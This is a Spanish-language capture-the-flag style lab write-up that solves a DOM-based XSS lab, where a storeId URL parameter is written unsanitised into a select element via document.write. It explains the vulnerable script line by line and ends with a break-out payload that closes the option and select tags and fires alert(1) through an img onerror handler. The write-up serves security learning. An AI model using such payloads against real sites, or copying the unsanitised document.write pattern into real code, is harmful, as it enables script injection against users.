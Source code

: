 # Lab: DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.  

![Practitioner](https://img.shields.io/badge/level-Practitioner-blue)


---

Tenemos una aplicación web que nos permite ver distintos productos de un shop:
![image](https://github.com/user-attachments/assets/e0f1fb0d-6d0b-4f4d-99e3-4d1ea9b189f7)

En este caso buscamos etiquetas `<script>` en el código sin éxito:
![image](https://github.com/user-attachments/assets/d942cdcc-af38-4cbe-91a6-3c2d52bd5147)

Hacemos click en la opción `View details`:
![image](https://github.com/user-attachments/assets/19a2816f-93c3-4fcc-9d05-9de39de29fa3)

Intentamos encontrar etiquetas `<script>` nuevamente:
![image](https://github.com/user-attachments/assets/e6b1f4b8-6169-435a-9049-d45d1376e32a)

Tenemos el siguiente fragmento de código:
```html
<script>
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
</script>
```

### 🔍 Línea por línea

```javascript
var stores = ["London","Paris","Milan"];
```

Define un arreglo con tres valores válidos: `"London"`, `"Paris"` y `"Milan"`.  
Estos son los valores legítimos que el menú desplegable debe mostrar.

---

```javascript
var store = (new URLSearchParams(window.location.search)).get('storeId');
```

Obtiene el valor del parámetro `storeId` de la URL.  
Ejemplo: si la URL es `...?storeId=Berlin`, entonces `store = "Berlin"`.

---

```javascript
document.write('<select name="storeId">');
```

Empieza a escribir en el documento un `<select>` HTML (menú desplegable).

---

```javascript
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

Si `store` existe (o sea, fue pasado por la URL), lo agrega como opción seleccionada.  
❗️ **Aquí hay un riesgo de XSS**, porque el valor viene directamente de la URL sin sanitizar y se inserta en el DOM con `document.write`.

---

```javascript
for(var i = 0; i < stores.length; i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>' + stores[i] + '</option>');
}
```

Recorre el arreglo `stores`.  
Si el valor actual es igual al parámetro `store`, lo salta (porque ya se insertó como `selected`).  
Si no, lo agrega como una opción al `<select>`.

---

```javascript
document.write('</select>');
```

Cierra la etiqueta `<select>`.%  

---


Comprobamos el flujo ingresando un valor arbitrario al parámetro `storeId`:

![image](https://github.com/user-attachments/assets/32f3bfac-a83a-4e56-9cb2-ab6c90cdd18e)

Tal como se observa, el valor del parámetro `storeId` es obtenido desde la cadena de consulta mediante:
```js
var store = (new URLSearchParams(window.location.search)).get('storeId');
```
Luego, ese valor es insertado directamente en el DOM como una opción del elemento `<select>`, utilizando el sink vulnerable `document.write`:
```js
document.write('<option selected>' + store + '</option>');
```

## 💥 Manipulación del DOM mediante inyección en `storeId`

Aquí la idea es inyectar un valor en el parámetro `storeId` que permita cerrar anticipadamente la etiqueta `<option>`, rompiendo así la estructura HTML del menú desplegable.

Para lograrlo, utilizamos el siguiente payload como valor de `storeId`:

`abc123xy</option></select>`

Esto se refleja directamente en el DOM:

![image](https://github.com/user-attachments/assets/1de3c398-4609-4cfd-8c0f-d2bd41a8be0c)

Como se puede ver, el payload **cierra tanto la opción como el `<select>`** manualmente, lo cual rompe la estructura original de la página.

🔍 Este es un paso fundamental en un ataque de tipo **DOM-based XSS**, ya que abre la posibilidad de inyectar contenido HTML o JavaScript luego de cerrar correctamente las etiquetas existentes.

---

## 🚨 Explotación del DOM XSS

Con la estructura HTML comprometida, podemos continuar la inyección con código JavaScript malicioso.

Utilizamos el siguiente payload para inyectar un XSS:
`abc123xy</option></select><img src=0 onerror=alert(1)>`
Obtenemos el popup:
![image](https://github.com/user-attachments/assets/b922d1e3-a621-414c-ab52-27e59cfbe57f)
![image](https://github.com/user-attachments/assets/84df6c2f-c5bf-47bd-b552-779bccb3b845)










